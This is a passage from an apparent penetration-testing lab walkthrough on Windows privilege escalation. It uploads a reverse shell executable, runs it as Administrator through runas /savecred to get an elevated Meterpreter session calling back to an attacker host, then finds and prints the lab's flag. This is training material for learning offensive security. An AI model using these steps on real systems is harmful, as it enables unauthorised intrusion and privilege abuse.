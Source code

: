 _Upload the reverse shell executable to the target machine._

`upload /root/Desktop/reverse_shell.exe`:
```
[*] uploading  : /root/Desktop/reverse_shell.exe -> reverse_shell.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /root/reverse_shell.exe -> reverse_shell.exe
[*] uploaded   : /root/Desktop/reverse_shell.exe -> reverse_shell.exe
```

**Explanation:** The `upload` command transfers the reverse shell executable from the attacker's machine to the target, placing it in the current working directory.

_Execute the uploaded reverse shell as the Administrator._

`shell`, `runas.exe /user:Administrator /savecred C:\Users\student\reverse_shell.exe`

```
[+] Meterpreter session 2 opened (10.10.4.3:5555 -> 10.4.17.2:49801) at 2024-05-07 21:49:17 +0530 ←
```

**Explanation:** Running the reverse shell as the `Administrator` using `runas.exe` with the saved credentials opens a new Meterpreter session with elevated privileges.

_Exit the shell and background the Meterpreter session._

`exit`

`background`

<span style="color: #e57373;">**Attacker machine**</span>.

_Interact with the new Meterpreter session._

`sessions`, `sessions -i 2`

_Verify that the session is running as Administrator._

`getuid`:
```
Server username: PRIV-ESC\Administrator ←
```

_Search for files containing the word "flag" to locate the target file._

`shell`, `where /r C:\ "*flag*"`:
```
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Recent\flag.lnk
C:\Users\Administrator\Desktop\flag.txt ←
```

**Explanation:** The `where` command searches the entire C: drive for files containing "flag" in their name, helping to locate the file that contains the lab's objective.

_Display the contents of the flag file._

`type C:\Users\Administrator\Desktop\flag.txt`:
```
39b9d593d6aa6b4ceffbcc214fc70504 ←
```

### Locally Stored Credentials: PowerShell History - Theory/Lab
